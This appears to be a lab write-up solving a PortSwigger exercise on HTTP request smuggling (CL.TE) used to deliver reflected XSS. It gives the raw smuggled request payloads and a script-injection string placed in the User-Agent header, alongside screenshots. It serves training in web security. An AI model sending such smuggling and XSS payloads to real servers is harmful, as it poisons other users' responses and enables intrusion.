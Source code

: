 # Exploiting HTTP request smuggling to deliver reflected XSS

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

---

step 1

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab10/lab10_test_first_payload.png)

step 2

inspect comment section

![screenshot](./images/images_lab10/lab10_inspect_comment_section.png)

step 3
intercept post

![screenshot](./images/images_lab10/lab10_intercept_post_containng_comment.png)

step 4
add payload
`"><script>alert(1)</script><"` into User-Agent

![screenshot](./images/images_lab10/lab10_add_alert_payload.png)

after forward request your browser come with pop up

![screenshot](./images/images_lab10/lab10_alert_pop_up.png)

inspect the pop up element

![screenshot](./images/images_lab10/lab10_inspect_element_alert_pop_up.png)

step 5
final payload to solve lab

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script><"
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab10/lab10_final_payload.png)

![screenshot](./images/images_lab10/lab10_lab_solved.png)
